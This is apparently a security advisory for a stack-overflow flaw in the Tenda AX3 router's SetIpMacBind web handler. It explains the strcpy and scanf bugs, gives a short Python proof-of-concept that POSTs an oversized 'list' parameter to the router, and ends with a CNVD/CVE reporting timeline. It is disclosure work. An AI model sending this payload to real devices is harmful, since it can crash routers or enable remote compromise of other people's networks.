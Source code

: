 ## Tenda Router AX3 Vulnerability

There is a vulnerability lies in page /goform/SetIpMacBind,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)).

## Description

Vulnerability function fromSetIpMacBind

![image-20220117231339966](1.png)

The variable v4 is directly obtained directly from the http request parameter list.

v4 will be copied to the stack variable s by the strcpy function, resulting in stack overflow.

The stack variable s will be formatted and input into the three stack variables of v20, v16, and v17 through the scanf function, resulting in stack overflow.

![image-20220117231748141](2.png)

Combining the above two vulnerabilities,  attacker can perform remote code execution with crafted overflow data.

## POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetIpMacBind"
bindnum = "3"
var_list = "b" * 0x1000
r = requests.post(url, data={'bindnum': bindnum,'list':var_list})
print(r.content)
```

## Timeline

- 2022-1-14 report to CNVD
- 2022-1-17 report to CVE
